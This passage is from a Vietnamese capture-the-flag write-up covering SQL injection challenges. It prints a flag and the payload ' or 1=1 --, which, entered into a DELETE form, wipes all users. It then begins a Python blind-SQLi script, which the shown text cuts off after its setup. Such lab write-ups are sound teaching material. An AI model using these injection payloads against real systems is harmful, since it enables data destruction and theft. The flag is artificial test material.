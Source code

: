 `FLAG: VKU{FLAG_SQL_I_LEVEL_2_YOU 4RA G006}`

### SQL Injection Level 3


Ở thử thách này, trên trang web có 2 tính năng có thể dính SQL Injection là ADD và DELETE
![Alt text](/images/writeups/writeup-vsl-ctf-internal-2023/image44.png)

Khi kiểm tra thì chỉ có tính năng DELETE sẽ dính lỗi SQLi.
Dùng payload `' or 1=1 -- ` để kiểm tra. Nhập giá trị này vào **username** cần xóa.
Sau khi Remove User bằng **Username** trên thì toàn bộ user đều bị xóa.
![Alt text](/images/writeups/writeup-vsl-ctf-internal-2023/image45.png)
Từ đây, có thể tận dụng lỗ hổng này để tìm ra tên các bảng và các cột có trong Cơ sở dữ liệu.

Đây chúng ta phải sử dụng một phương pháp tấn công gọi là lỗ hổng SQL Injection Blind.

Mình đã viết một payload để giải bài này.
(Bạn cũng có thể tìm thấy payload này được public trên github thông qua gợi ý trên file **github.html**)

Xem và tải nó ở đây: [payload.py](./payload.py)

```python
import requests
import json
import base64
import sys

in_url = input("ENTER IP AND PORT FOR WEBSITE EXAMPLE: 123.124.533.345:9898 \n")
url = f"http://{in_url}/"
post_delete = "admin.php"
url_result = "users.html"
list_wordlist=list("abcdefghijklmnopqrstuvwxyz0123456789,ABCDEFGHIJKLMNOPQRSTUVWXYZ_!@#$%^&*{}();")
encoded_data_get = {
    "data":"eyJyZXF1ZXN0TWV0aG9kIjoiZ2V0QWxsVXNlcnMifQ=="
}
```